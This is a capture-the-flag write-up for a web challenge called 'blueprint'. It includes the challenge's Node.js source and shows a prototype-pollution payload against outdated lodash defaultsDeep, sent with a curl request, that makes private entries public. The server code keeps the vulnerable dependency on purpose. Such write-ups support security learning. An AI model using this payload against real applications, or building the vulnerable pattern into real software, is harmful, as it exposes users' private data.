

# Blueprint - Web

### [~$ cd ..](../)

>blueprint
>
>Written by: ginkoid
>
>All the haxors are using blueprint. You created a blueprint with the flag in it, but the military-grade security of blueprint won't let you get it!

The website we faced was really simple:



By clicking on the link, we landed on this page, with a form allowing us to publish messages:


The [source code](blueprint.js) and the [package.json](package.json) were also given in the description

JS source:

```js
const crypto = require('crypto')
const http = require('http')
const mustache = require('mustache')
const getRawBody = require('raw-body')
const _ = require('lodash')
const flag = require('./flag')

const indexTemplate = `
<!doctype html>
<style>
  body {
    background: #172159;
  }
  * {
    color: #fff;
  }
</style>
<h1>your public blueprints!</h1>
<i>(in compliance with military-grade security, we only show the public ones. you must have the unique URL to access private blueprints.)</i>
<br>
{{#blueprints}}
  {{#public}}
    <div><br><a href="/blueprints/{{id}}">blueprint</a>: {{content}}<br></div>
  {{/public}}
{{/blueprints}}
<br><a href="/make">make your own blueprint!</a>
`

const blueprintTemplate = `
<!doctype html>
<style>
  body {
    background: #172159;
    color: #fff;
  }
</style>
<h1>blueprint!</h1>
{{content}}
`

const notFoundPage = `
<!doctype html>
<style>
  body {
    background: #172159;
    color: #fff;
  }
</style>
<h1>404</h1>
`

const makePage = `
<!doctype html>
<style>
  body {
    background: #172159;
    color: #fff;
  }
</style>
<div>content:</div>
<textarea id="content"></textarea>
<br>
<span>public:</span>
<input type="checkbox" id="public">
<br><br>
<button id="submit">create blueprint!</button>
<script>
  submit.addEventListener('click', () => {
    fetch('/make', {
      method: 'POST',
      headers: {
        'content-type': 'application/json',
      },
      body: JSON.stringify({
        content: content.value,
        public: public.checked,
      })
    }).then(res => res.text()).then(id => location='/blueprints/' + id)
  })
</script>
`

// very janky, but it works
const parseUserId = (cookies) => {
  if (cookies === undefined) {
    return null
  }
  const userIdCookie = cookies.split('; ').find(cookie => cookie.startsWith('user_id='))
  if (userIdCookie === undefined) {
    return null
  }
  return decodeURIComponent(userIdCookie.replace('user_id=', ''))
}

const makeId = () => crypto.randomBytes(16).toString('hex')

// list of users and blueprints
const users = new Map()

http.createServer((req, res) => {
  let userId = parseUserId(req.headers.cookie)
  let user = users.get(userId)
  if (userId === null || user === undefined) {
    // create user if one doesnt exist
    userId = makeId()
    user = {
      blueprints: {
        [makeId()]: {
          content: flag,
        },
      },
    }
    users.set(userId, user)
  }

  // send back the user id
  res.writeHead(200, {
    'set-cookie': 'user_id=' + encodeURIComponent(userId) + '; Path=/',
  })

  if (req.url === '/' && req.method === 'GET') {
    // list all public blueprints
    res.end(mustache.render(indexTemplate, {
      blueprints: Object.entries(user.blueprints).map(([k, v]) => ({
        id: k,
        content: v.content,
        public: v.public,
      })),
    }))
  } else if (req.url.startsWith('/blueprints/') && req.method === 'GET') {
    // show an individual blueprint, including private ones
    const blueprintId = req.url.replace('/blueprints/', '')
    if (user.blueprints[blueprintId] === undefined) {
      res.end(notFoundPage)
      return
    }
    res.end(mustache.render(blueprintTemplate, {
      content: user.blueprints[blueprintId].content,
    }))
  } else if (req.url === '/make' && req.method === 'GET') {
    // show the static blueprint creation page
    res.end(makePage)
  } else if (req.url === '/make' && req.method === 'POST') {
    // API used by the creation page
    getRawBody(req, {
      limit: '1mb',
    }, (err, body) => {
      if (err) {
        throw err
      }
      let parsedBody
      try {
        // default values are easier to do than proper input validation
        parsedBody = _.defaultsDeep({
          publiс: false, // default private
          cоntent: '', // default no content
        }, JSON.parse(body))
      } catch (e) {
        res.end('bad json')
        return
      }

      // make the blueprint
      const blueprintId = makeId()
      user.blueprints[blueprintId] = {
        content: parsedBody.content,
        public: parsedBody.public,
      }

      res.end(blueprintId)
    })
  } else {
    res.end(notFoundPage)
  }
}).listen(80, () => {
  console.log('listening on port 80')
})
```

Package.json:

```json
{
  "name": "blueprint",
  "version": "0.0.0",
  "private": true,
  "dependencies": {
    "lodash": "4.17.11",
    "mustache": "^3.0.1",
    "raw-body": "^2.4.1"
  }
}
```

So here, the flag is put in one of our blueprints, but we don't know its ID, which was randomly generated and normally unguessable. We can publish public blueprints, that are displayed in the front page, or private ones, that we can access if we know their URL. The idea is then to find a way to make public the private ones.
The important thing to notice here is that `lodash` module is outdated and is [vulnerable to prototype poisoning](https://nvd.nist.gov/vuln/detail/CVE-2019-10744). A good explanation can be found [here](https://snyk.io/vuln/SNYK-JS-LODASH-450202), but in a nutshell, the idea is to override the constructor of an object and trick the routine `defaultDeep` so as to modify the default properties of an object.

The PoC given in the article is as follows:

```js
const mergeFn = require('lodash').defaultsDeep;
const payload = '{"constructor": {"prototype": {"a0": true}}}'

function check() {
    mergeFn({}, JSON.parse(payload));
    if (({})[`a0`] === true) {
        console.log(`Vulnerable to Prototype Pollution via ${payload}`);
    }
  }

check();
```

Then, in our case, we only have to set `public` to `true`:

```bash
$ curl -H "Cookie: user_id= ... " --data '{"constructor": {"prototype": {"public": "true"}}}' http://chall2.2019.redpwn.net:8002/make
```

Browsing to the main page displays now the flag: **flag{8lu3pr1nTs_aRe_tHe_hiGh3s1_quA11tY_pr0t()s}**

EOF
